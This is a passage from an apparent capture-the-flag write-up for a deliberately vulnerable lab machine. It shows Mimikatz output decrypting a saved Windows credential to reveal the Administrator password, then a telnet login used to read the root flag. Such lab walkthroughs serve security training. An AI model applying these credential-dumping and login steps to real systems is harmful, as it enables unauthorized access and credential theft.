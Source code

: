     Decrypting Credential:
     * volatile cache: GUID:{0792c32e-48a5-4fe3-8b43-d93d64590580};KeyHash:bf6d0654e
    f999c3ad5b09692944da3c0d0b68afe
    **CREDENTIAL**
      credFlags      : 00000030 - 48
      credSize       : 000000f4 - 244
      credUnk0       : 00002004 - 8196
    
      Type           : 00000002 - 2 - domain_password
      Flags          : 00000000 - 0
      LastWritten    : 8/22/2018 9:18:49 PM
      unkFlagsOrSize : 00000038 - 56
      Persist        : 00000003 - 3 - enterprise
      AttributeCount : 00000000 - 0
      unk0           : 00000000 - 0
      unk1           : 00000000 - 0
      TargetName     : Domain:interactive=ACCESS\Administrator
      UnkData        : (null)
      Comment        : (null)
      TargetAlias    : (null)
      UserName       : ACCESS\Administrator
      CredentialBlob : 55Acc3ssS3cur1ty@megacorp
      Attributes     : 0
    

Here’s that entire process:

![](https://0xdfimages.gitlab.io/img/access-mimikatz.gif)

#### Telnet as Administrator

Now that I have the password for the Administrator account, I can telnet and
get `root.txt`:

    
    
    root@kali# telnet 10.10.10.98
    Trying 10.10.10.98...
    Connected to 10.10.10.98.
    Escape character is '^]'.
    Welcome to Microsoft Telnet Service 
    
    login: administrator
    password: 
    
    *===============================================================
    Microsoft Telnet Server.
    *===============================================================
    C:\Users\Administrator>cd desktop
    
    C:\Users\Administrator\Desktop>type root.txt
    6e1586cc...
    

## Beyond Root - Examining lnk Files
